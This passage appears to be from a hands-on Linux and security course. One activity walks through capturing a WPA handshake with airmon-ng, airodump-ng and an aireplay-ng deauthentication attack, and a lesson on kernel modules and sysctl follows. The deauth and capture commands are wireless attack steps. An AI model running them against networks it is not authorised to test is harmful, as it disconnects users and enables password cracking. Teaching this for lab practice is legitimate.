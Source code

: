**Activities**

1. Capture a WPA Handshake

Task:

Put your Wi-Fi card in monitor mode:

    sudo airmon-ng start wlan0  

Scan for networks:

    sudo airodump-ng wlan0mon  

Target a network and capture handshake:

    sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon  

Force a handshake (deauth attack):

    sudo aireplay-ng -0 4 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon  

Verify capture:

    Look for "WPA handshake" in airodump-ng output.

#  Linux Kernel and Modules

**Objectives**

- Explore Linux kernel modules (lsmod, modprobe)
- Tune kernel parameters (sysctl)
- Load and unload modules dynamically
- Disable a kernel module for security

**Lessons**

1. Kernel Modules Basics

List Loaded Modules:

    lsmod  # Shows currently loaded modules  

Module Information:

    modinfo <module_name>  # e.g., `modinfo e1000`  

Load/Unload Modules:

    sudo modprobe <module_name>      # Load  
    sudo modprobe -r <module_name>   # Unload  

Manual Loading (Avoid Unless Necessary):
  
    sudo insmod /path/to/module.ko   # Load  
    sudo rmmod <module_name>         # Unload  

2. Kernel Tuning with sysctl

View Current Settings

    sysctl -a  # List all parameters  
